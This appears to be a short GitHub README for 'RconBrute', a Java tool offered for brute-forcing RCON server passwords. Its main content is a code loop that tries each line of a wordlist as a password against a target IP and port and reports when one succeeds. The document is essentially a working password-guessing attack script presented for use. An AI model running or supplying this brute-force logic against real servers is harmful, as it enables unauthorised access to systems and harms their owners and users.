 # 🔌 RconBrute
Java Rcon BruteForce

# ⚡ How it works?
```java
while(wordlist.hasNextLine()) {
    String line = wordlist.nextLine();
    try {
        Rcon rcon = new Rcon(ip, port, line.getBytes());
        System.out.println("[+] Password Found: " + line);
        break;
    } catch (AuthenticationException | IOException e) {
        System.out.println("[-] Password Incorrect: " + line);
    }
}
```
